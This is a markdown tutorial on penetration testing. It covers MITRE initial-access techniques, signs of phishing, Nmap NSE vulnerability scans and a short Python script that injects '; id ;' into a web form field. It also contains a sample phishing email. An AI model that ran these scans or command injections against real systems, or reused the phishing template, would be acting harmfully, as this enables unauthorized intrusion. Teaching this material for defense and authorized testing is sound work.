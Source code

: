 ```markdown
# Initial Access and Internal Recon

## Understand How Initial Access Fits into the MITRE Matrix

The MITRE ATT&CK framework is a comprehensive matrix of tactics and techniques used by adversaries to carry out cyberattacks. Initial access is the first tactic in the matrix, focusing on gaining entry into a target network.

### Key Techniques

- **Phishing**: Sending malicious emails to trick users into revealing credentials or downloading malware.
- **Exploit Public-Facing Applications**: Exploiting vulnerabilities in internet-facing applications to gain access.
- **Drive-by Compromise**: Compromising a website to deliver malware to visitors.

### Example

- **Scenario**: An attacker uses a phishing email to deliver a malicious payload that exploits a vulnerability in a public-facing application, providing initial access to the target network.

## Recognize Phishing Emails and Understand Why Attackers Use Them to Obtain Initial Access

Phishing emails are fraudulent messages designed to trick recipients into revealing sensitive information or downloading malware. Attackers use phishing because it is a low-cost, high-reward method to gain initial access.

### Key Indicators of Phishing Emails

- **Suspicious Sender**: The email is from an unknown or unexpected sender.
- **Urgent Language**: The email uses urgent or threatening language to prompt immediate action.
- **Malicious Links**: The email contains links that lead to malicious websites.
- **Attachments**: The email includes unexpected attachments that may contain malware.

### Example

- **Phishing Email**:
  ```plaintext
  From: support@example.com
  Subject: Urgent: Update Your Account Information

  Dear User,

  We have detected suspicious activity on your account. Please click the link below to update your information immediately:

  [Update Account](http://malicious-link.com)

  Thank you,
  Support Team
  ```

## Perform Advanced Nmap Scans with NSE Scripts

Nmap (Network Mapper) is a powerful tool for network discovery and security auditing. Nmap Scripting Engine (NSE) allows users to write and use scripts to automate various network tasks.

### Example

- **Basic Nmap Scan**:
  ```bash
  nmap -sV example.com
  ```

- **Advanced Nmap Scan with NSE Script**:
  ```bash
  nmap --script vuln example.com
  ```
  - **Explanation**: This command uses the `vuln` script to scan for vulnerabilities on the target `example.com`.

### Common NSE Scripts

- **http-enum**: Enumerates directories used by web servers.
  ```bash
  nmap --script http-enum example.com
  ```

- **ftp-anon**: Checks for anonymous FTP login.
  ```bash
  nmap --script ftp-anon example.com
  ```

## Exploit a Machine with a Python Script

Python is a versatile programming language that can be used to write scripts for exploiting vulnerabilities.

### Example

- **Vulnerable Application**: A web application with a command injection vulnerability.

- **Python Exploit Script**:
  ```python
  import requests

  target_url = "http://example.com/vulnerable_endpoint"
  command = "id"

  payload = {"input": f"; {command} ;"}

  response = requests.post(target_url, data=payload)

  print(response.text)
  ```

- **Explanation**: This script sends a POST request to the vulnerable endpoint with a payload that includes a command injection. The response from the server is printed, showing the result of the injected command.

By understanding these concepts and using these tools, you can effectively perform initial access and internal reconnaissance activities, enhancing your penetration testing skills.

```
